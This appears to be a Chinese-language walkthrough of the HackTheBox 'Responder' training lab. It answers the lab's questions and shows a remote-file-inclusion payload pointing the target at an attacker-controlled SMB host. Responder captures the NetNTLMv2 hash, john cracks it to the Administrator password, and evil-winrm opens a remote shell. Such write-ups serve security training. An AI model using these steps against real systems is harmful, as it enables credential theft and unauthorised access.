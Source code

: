 

Responder



任务1

使用IP地址访问Web服务时，我们被重定向到的域是什么？

使用curl 访问地址返回http://unika.htb

![image-20230605150437305](应答者.assets/image-20230605150437305.png)

答案为unika.htb

任务2 

服务器上使用哪种脚本语言生成的网页

将本地hosts文件添加上靶机IP和跳转地址，不然访问不了这个服务器

```
echo "10.129.107.146 unika.htb" >> /etc/hosts
```

使用wappalyzer可以看到网站是使用PHP语言开发的

![image-20230605182716275](应答者.assets/image-20230605182716275.png)



任务3

用于加载网页的不同语言版本的URL参数的名称是什么？

![image-20230605183315705](应答者.assets/image-20230605183315705.png)

任务4

以下“page”参数的哪些值是利用本地文件包含（LFI）漏洞的示例：“french.html”，“//10.10.14.6/somefile“，“../../../../../../../../ windows/system32/drivers/etc/hosts”，“minikatz.exe”

![image-20230605183711609](应答者.assets/image-20230605183711609.png)

![image-20230605184543751](应答者.assets/image-20230605184543751.png)

任务5

下列`page`参数的哪个值是利用远程文件包含（RFI）漏洞的示例：“french.html”，“//10.10.14.6/somefile“，“../../../../../../../../ windows/system32/drivers/etc/hosts”，“minikatz.exe”

![image-20230605184844517](应答者.assets/image-20230605184844517.png)


任务6

NTLM代表什么？

New Technology LAN Manager

任务7

在响应程序实用程序中使用哪个标志来指定网络接口？

-i

任务8

有几个工具可以接受NetNTLMv 2质询/响应，并尝试数百万个密码，以查看其中是否有任何密码生成相同的响应。一个这样的工具通常被称为“john”，但全名是什么？.

John the Ripper

任务9

管理员用户的密码是什么？

使用ifconfig查看网卡名称并记录IP地址

![image-20230605201526138](应答者.assets/image-20230605201526138.png)



首先启动responder并监听本地的tun0网卡

![image-20230605201643631](应答者.assets/image-20230605201643631.png)

使用远程文件包含

```
payload:http://unika.htb/index.php?page=//10.10.14.48/somefile
```

![image-20230605202019415](应答者.assets/image-20230605202019415.png)

监听到hash格式的密码

![image-20230605202158468](应答者.assets/image-20230605202158468.png)

将hash值保存到hash文件中并用john进行解密（有点久，`hashcat`有相同功能但是）

```
john hash
```

![image-20230605215313532](应答者.assets/image-20230605215313532.png)



密码为badminton

任务10

我们将使用Windows服务（即在机器上运行）使用我们恢复的密码远程访问响应者机器。它监听哪个TCP端口？	通常端口为5985/tcp (http) 5986/tcp(https) 

Server2008R2及往上的系统中默认中都开启该服务，从Server2012系统后开始，该WinRM服务便被设置为默认开启。Win7系统中却默认安装此WinRM服务，但是默认为禁用状态，Win8系统和Win10系统也都默认开启WinRM服务。

使用nmap扫描出来为：5985 

```
nmap -sV -p 5985 10.129.45.117
```

![image-20230605231306561](应答者.assets/image-20230605231306561.png)



任务10 提交flag

知道服务器开启WindowsRemoteManagementd（winRM  win远程管理）了之后，使用`evil-winrm`工具连接服务器

```
evil-winrm -i 10.129.135.227 -u Administrator -p badminton
```

![image-20230605231339468](应答者.assets/image-20230605231339468.png)

flag的地址在 C:\Users\mike\Desktop

![image-20230605231205619](应答者.assets/image-20230605231205619.png)





